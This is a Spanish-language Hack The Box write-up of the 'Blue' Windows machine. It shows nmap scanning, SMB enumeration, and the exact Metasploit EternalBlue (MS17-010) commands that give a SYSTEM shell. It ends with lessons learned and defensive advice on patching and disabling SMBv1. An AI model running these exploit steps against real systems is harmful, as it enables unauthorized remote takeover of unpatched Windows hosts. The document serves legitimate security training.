


# Blue

## 🧾 Overview

- **Plataforma:** Hack The Box
- **Dificultad:** Easy 
- **Sistema:** Windows
- **Entorno:** SMB / Windows
- **Vector principal:** MS17-010 / EternalBlue

Este documento describe el proceso de compromiso de la máquina Blue, un escenario orientado a la explotación de un servicio SMB vulnerable en un sistema Windows desactualizado.  
  
A lo largo del análisis se sigue una metodología estructurada basada en reconocimiento, enumeración, identificación de vulnerabilidades y explotación remota, hasta obtener una shell con privilegios elevados en el sistema.

---

## 🎯 Objetivo

El objetivo de la máquina consiste en identificar los servicios expuestos, detectar una vulnerabilidad crítica en SMB y explotarla para obtener acceso al sistema con privilegios administrativos.

---

## 🌐 Reconocimiento

Como primer paso, verificamos la conectividad con la máquina objetivo.

```bash
ping -c 1 10.129.48.147
```

La respuesta confirmó que el host estaba activo y accesible desde nuestra posición.

A continuación, realizamos un escaneo inicial con Nmap para identificar puertos abiertos y servicios en ejecución.

```bash
sudo nmap -p- --open --min-rate 5000 -n -Pn 10.129.48.147 -oG allPorts
```

Posteriormente, lanzamos un escaneo más detallado sobre los puertos detectados.

```bash
nmap -p 135,139,445 -sCV 10.129.47.148 -oN target
```

```bash
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
```

### Resultados relevantes

- Puerto 135: Microsoft RPC
- Puerto 139: NetBIOS Session Service
- Puerto 445: Microsoft SMB

Los resultados mostraron la presencia de servicios típicos de un entorno Windows, destacando especialmente SMB en el puerto 445.

La versión identificada correspondía a un sistema Windows antiguo, lo que orientó la siguiente fase hacia la búsqueda de vulnerabilidades conocidas asociadas a SMB.

---

## 🔎 Enumeración

Dado que SMB era el servicio más relevante expuesto, se priorizó su enumeración para identificar posibles recursos compartidos, información del sistema y vulnerabilidades conocidas.

```bash
smbmap -H 10.129.48.147 -u ' '
```

Aunque la enumeración de recursos SMB no proporcionó credenciales directamente, la versión del sistema y la exposición del puerto 445 sugerían la posibilidad de que la máquina fuese vulnerable a MS17-010.

Para comprobarlo utilizamos scripts específicos de **nmap**

```bash
nmap --script "vuln and safe" -p 445 10.129.48.147
```

```bash
PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
```

El resultado confirmó que el sistema era vulnerable a MS17-010, una vulnerabilidad crítica en SMBv1 conocida popularmente como EternalBlue.

### Análisis de la vulnerabilidad

MS17-010 es una vulnerabilidad crítica que afecta a SMBv1 en sistemas Windows sin parchear.

Su explotación permite la ejecución remota de código enviando paquetes especialmente manipulados al servicio SMB, sin necesidad de autenticación previa.

En el contexto de la máquina Blue, esta vulnerabilidad representa el vector principal de compromiso, ya que permite obtener ejecución remota de comandos directamente sobre el sistema objetivo.

---

## 💥 Explotación

Una vez confirmada la vulnerabilidad se procedió a la explotación utilizando Metasploit.

```bash
msfconsole
```

Dentro de Metasploit buscamos el módulo correspondiente a EternalBlue.

```bash
search eternalblue

use 0
```

Configuramos los parámetros necesarios.

```bash
set rhost 10.129.48.147
set lhost 10.10.15.121
```

Finalmente lanzamos el exploit.

```bash
run
```



La explotación fue exitosa y se obtuvo una sesión en la máquina objetivo.

```bash
getuid
```



El resultado mostró que la sesión se ejecutaba con privilegios elevados, concretamente como `NT AUTHORITY\SYSTEM`

---

## 🔐 Escalada de Privilegios

En esta máquina no fue necesario realizar una escalada de privilegios tradicional.

La explotación de EternalBlue permitió obtener directamente una shell con privilegios `SYSTEM`, el nivel de privilegio más alto en un sistema Windows.

No obstante, tras obtener acceso, es recomendable verificar el contexto de ejecución y recopilar información básica del sistema.

## 🧠 Lecciones aprendidas

- La exposición de SMB en sistemas Windows antiguos puede representar un riesgo crítico si no se aplican los parches de seguridad correspondientes.
- La enumeración de versiones y servicios resulta clave para identificar vulnerabilidades conocidas.
- MS17-010 demuestra cómo una única vulnerabilidad crítica puede permitir ejecución remota de código sin autenticación.
- El uso de scripts específicos de Nmap permite validar vulnerabilidades de forma rápida antes de proceder con la explotación.
- No todas las máquinas requieren una fase de escalada de privilegios posterior; en algunos casos, el exploit inicial ya proporciona acceso privilegiado.
- La correcta gestión de parches es una medida defensiva esencial frente a vulnerabilidades ampliamente explotadas.

---

## 🛡️ Perspectiva defensiva

- Deshabilitar SMBv1 en sistemas Windows, ya que se trata de un protocolo obsoleto e inseguro.
- Aplicar los parches de seguridad publicados por Microsoft para corregir MS17-010.
- Restringir la exposición del puerto 445 únicamente a redes internas estrictamente necesarias.
- Implementar segmentación de red para limitar el impacto de una posible explotación.
- Monitorizar intentos de conexión anómalos contra servicios SMB.
- Mantener inventarios actualizados de sistemas operativos, versiones y servicios expuestos.
- Utilizar soluciones de detección que identifiquen intentos de explotación de EternalBlue y tráfico SMB sospechoso.

---

## 🧰 Herramientas utilizadas

- Nmap
- SMBMap
- Metasploit
- Meterpreter
---

## ✅ Conclusión

Blue representa un ejemplo claro del impacto que puede tener una vulnerabilidad crítica en un servicio ampliamente utilizado como SMB.

La máquina muestra una cadena de compromiso directa: el reconocimiento permite identificar servicios Windows expuestos, la enumeración confirma la presencia de SMB vulnerable y la explotación de MS17-010 proporciona acceso inmediato al sistema con privilegios `SYSTEM`.

El valor principal de esta máquina reside en comprender la importancia de la gestión de parches, la reducción de superficie de ataque y la deshabilitación de protocolos obsoletos como SMBv1.

Aunque técnicamente es una máquina sencilla, Blue resulta muy útil para reforzar una metodología básica de pentesting en entornos Windows: identificar servicios, correlacionar versiones con vulnerabilidades conocidas, validar la exposición y explotar de forma controlada el vector encontrado.
